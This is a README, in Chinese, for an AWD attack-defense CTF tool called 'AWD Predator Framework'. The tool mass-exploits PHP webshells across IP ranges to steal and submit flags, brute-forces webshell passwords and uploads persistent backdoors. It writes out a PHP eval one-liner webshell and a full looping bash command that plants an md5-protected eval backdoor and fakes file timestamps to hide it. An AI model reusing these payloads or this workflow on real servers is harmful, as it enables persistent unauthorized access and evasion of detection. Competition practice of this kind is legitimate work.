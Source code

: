     AWD Predator Framework v2.0                   

              --code by AresX       
			  

* 在AWD攻防赛中通过给定的webshell批量获取提交flag

* 为不会现场挖洞写脚本的菜鸡准备

* 用py去实现菜刀是一件代码量很大的事情，懒得做也不会做(以后可能会做)，所以需要手动设置一句话的功能函数和方法

* 针对简单的单参数传递的一句话和特定的加密一句话

# 启动

    python console.py


# webshell

**添加已知的webshell,仅支持php，GET和POST方法使用eval和exec函数的一句话木马**

### 添加webshell

命令`add`

使用方法: `add [shell path] [pwd] [type(eval/exec)] [method(get/post)]`

如一句话为`<?php @eval($_POST[‘cmd’]);?>` 路径为`x.x.x.x:8001://index/cmd.php`

一句话密码为`cmd` 功能函数为`eval` 方法为`POST`


example:`add :8001/index/cmd.php cmd eval post`

注意这里添加一句话路径不加ip地址,ip地址要使用命令`ip`生成

命令执行后webshell的路径和密码会以字典的形式储存

**处理了使用md5加密的eval函数一句话,**

get方法在添加时,可添加带md5加密的密码的路径

如:`add :8003/x.php?pass=fuckyou x eval get` 

post方法请在`flag.py`中修改`for j in POST_eval_shells_path_pwd:`循环中的`eval_POST_data['pass']`为自己的密码，密码将被自动传递

post添加方法同`add :8001/index/cmd.php cmd eval post`

### 显示添加的webshell

命令`show`

将显示所有添加的webshell路径和密码

### 保存,读取,清空webshell
*保存已经添加的webshell路径和密码，方便临场修改代码*

保存:`save`
读取:`load`
清空:`clear` //清空不会清空已经储存的webshell,除非在清空后执行保存命令

### Webshell爆破

*采用一种提速千倍的爆破方法*

命令: `crack http://xxx.php`

字典储存在`auxi/pwd.txt`中，可自行完善字典


# iplist

**根据输入生成指定段的ip列表**

### 生成列表

命令: `ip x.x.a-b.x`

可设定acb任意段的ip列表,使用'-'连接左右区间

### 添加指定ip

命令: `ip x.x.x.x`

执行命令后,`x.x.x.x`将被添加到ip列表中,会自动去除重复项和进行排序

### 查看已经生成的列表

命令: `showip`

显示生成的ip列表

### 清空ip列表

命令: `clearip`

### 去掉指定ip

命令: `removeip x.x.x.x`

# flag

**通过iplist和webshell获取flag，将获取到的flag提交到指定服务器**

### 获取flag
*遍历iplist中所有的地址尝试通过所有已经添加的webshell获取flag,在执行此命令前需设定iplist，否则报错*

命令:`getflag [command]`

example:`getflag curl www.baidu.com/flag.txt`

获取命令如果不需要修改只需完整输入一次，之后可直接执行`getflag`

### 查看flag

命令: `showflag`



### 提交flag

**攻防赛环境中获取到的flag通常不是标准格式,`flag.py`中的`submit_flag`函数中已经使用了`re.compile(r'flag{\w+?}')`尝试匹配标准flag格式**
**如果出现问题,请自行在`flag.py`文件的`submit_flag`函数中使用正则匹配获得标准flag进行提交**

*提交flag 需设定提交flag的链接，以及cookie和data,使用"?"替换flag在data中所在的参数*

命令: `submit [url] [cookie] [data](use '?' replace the flag )`

example: `submit http:xxx.xxx.xx/xx/ JSESSIONID=A6F8;route=6cf03 pid=-1&pidName=&flag=?`
**去掉cookie中的空格,data中flag所在位置需用?代替！**

提交命令如果不需要修改只需完整输入一次，之后可直接执行`submit`

submit完成之后会有清空flag的选项(y/n)

### 清空flag

命令: `clearflag`

# 上传

## 文件木马上传

命令: `upload <file>(default='auxi/shell.php')`

默认上传文件为`auxi/shell.php` 如需使用修改默认文件,默认文件为加密不死马

如需上传其他文件,将文件储存在`auxi/`目录下

执行`upload xxx`即可

如上传默认文件,直接执行`upload`

如果文件上传成功，会自动访问一次上传的文件，激活不死马

## 命令木马上传

命令: `cupload`

连接一句话执行bash命令生成不死马`.index1.php`

bash命令为:`system('while true;do echo \'<?php if(md5($_POST["pass"])=="3a50065e1709acc47ba0c9238294364f"){@eval($_POST[a]);} ?>\' >fuck.php;touch -m -d "2017-11-12 10:10:10" .index1.php;sleep 1;done;');`

如果要修改请修改`command.py`中的`data[z0]`

---


### 目录结构
```
###########
├── Readme.md               //帮助文档 
├── console.py              //启动
├── core                    // 核心模块
│   ├── shells.py           //写入，读取，保存webshell
│   ├── flag.py             // 获取，提交flag
│   ├── iplist.py           // 生成ip列表   
│—— auxi                    //辅助模块
|   |—— upload.py           //webshell上传功能
|   |—— shell.php           //默认上传文件
|   |—— webshell.txt        //一句话储存路径  
|   |—— command.py          //上传bash不死马
|—— data                    //webshell数据储存

```
# awd-framework
